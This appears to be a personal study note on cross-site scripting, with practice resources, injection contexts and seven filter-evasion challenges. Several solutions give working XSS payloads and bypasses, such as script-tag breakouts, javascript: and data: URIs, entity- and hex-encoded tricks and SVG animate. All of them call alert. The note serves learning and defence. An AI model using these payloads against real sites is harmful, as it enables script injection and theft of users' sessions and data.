 # Resource
* youtube : xss liveoverflow
* https://xss-game.appspot.com   [done nothing new]
* https://xss-quiz.int21h.jp/ 
* https://github.com/cure53/XSSChallengeWiki/wiki/Older-Challenges-and-Write-Ups
* http://html5sec.org/


# Some of Xss context Location 

```
<html>
	
	<head>
		<script>
			const test = "CONTEXT-1";
		</script>
	</head>

	<body>
		<svg height="400" width="400">
			<text fill="#e2e2e2">CONTEXT-2</text>
		</svg>
	
		<form action="" >
			<input type="text" value="CONTEXT-3" />
		</form>

	</body>

</html>

```

XSS should be encoded according to context they are placed in, so CONTEXT-1 payload should be properly htmlencoded whereas not same for context-2.


* `/` is space in HTML. `<sv/g> = <sv g>`

# Attacks

1.

Question :
(Context-1)(only escaping ' and ")

```
<?php
// Can you spot the xss ?
 
$username = isset($_GET["username"]) ? $_GET["username"] : "guest";
$username = addslashes($username);
?>
<body>
<script>
 const username = '<?=$username?>';
 document.body.innerText = `Hello ${username} !`;
</script>

```

Sol:

```
<!-- The HTML parser is not JS aware, that means it will close the Js block at the first occurence of /script> even if its inside string -->

<script>
	const test = "</script>"; // script is closed here
</script>

<!-- to exploit above code u just need to close the script tag by sending username as </script> and use any basic xss payload. so if username = "</script><svg onload=alert`1`>"; -->

<script>
	const username = "</script><svg onload=alert`1`>";
	document.body.innerText = `Hello ${username} !`;
</script>

```

2.

Question :
(context-1)(escaping many invalid chars `()[]<>\'"` )

```
<?
$input = $_GET['input'];
$blacklist = str_split('()[]<>\'"`');

foreach($blacklist as $c){
	if(strpos($input, $c) !== false){
		die("nop");
	}
}

?>

<script>
const age = <?= $input ?>;
</script>

```

SOl:
```
<!-- So input cannot have set of things and if it doesnt, its directly inserted to script. So a simple input=23;alert(1); would have worked if no blacklist .-->
Bypasses can be

* age=23;{onerror=alert}throw 23//
* age=19;location=/javascript:alert%25281%2529/.source;

```

3.

Question:
(context-1)(XSS-auditor of chrome helps)
```
<script>var x=23;</script>

<script>
	if(!x || typeof x==="undefined"){
		alert("But how")?
	}
</script>
```

SOL:
```
<!-- As we know chromes xss auditor can simply `ignore/stops` execution of script if its same in URL we can use it -->

site.com/?x=<script>var x=23;</script>
```

4.

Question:
(context-2)(`<x onxxx=>` is filtered)

```
userInput = req.params("query");

if ( userInput.match(/<.*on.*=.*>/) || userInput.match("<script>") ){
	return "Error";
}

docuement.innerHTML = userInput;
``` 

SOl:
```
<!-- So this is one hard filter. <img> tag works fine, even <img onerror> is fine but it just dont allow you to have it like '<img onerror=' .The filter is very hard we can use some newlines and \ to bypass . -->


userInput as following are giving xss:
* <form action=javascript:alert(1)><input type=submit>  # donot use onxxx at all, use src=javascript:alert
* <svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=&> # same using src=js trick, this gives alert on click 


* <iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;>  # this is one tricky bypass

```

5.

Question:
(context-3)(scipt,on[a-z]+,style : are not allowed in the userInput)

```
userInput = req.params("query");

userInput = userInput.replace(	/script/gi   	,	"xscript");
userInput = userInput.replace(	/on[a-z]+=/ig	,	"onxxx=");
userInput = userInput.replace(	/style=/gi   	,	"stxxx=");

document.innerHTML = "<svg " + userInput + ">"

```

Solution:

```
"><a href=javas&#99;ript:alert(1)>click

"><iframe src="data:text/html;base64,PHNjcmlwdD5wYXJlbnQuYWxlcnQoZG9jdW1lbnQuZG9tYWluKTs8L3NjcmlwdD4="></iframe>  # works on firefox(parent.alert); dont know why cross origin is allowed in firefox


```

6.

Question :
(context-1)(escaping htmlentites which encode \<>'" or any character very properly )

```
<script>docuement.write("<?php echo htmlentities($_GET['x']); ?>"); </script>
```

Solution:
```
<!-- Unicode to the rescue  -->

\x3cimg src\x3dx \x3e
```


7.

Question:( NO SOLUTION YET)
(context-3)(' " < > whiteSpace newLine  `character from 0x00 to 0x20` all are blocked )


```
userInput = req.params("query");

userInput = userInput.replace(	/[\x00-\x20\<\>\"\']/gi   	,	"");

document.innerHTML = "<input value = '" + userInput + "'>"

```



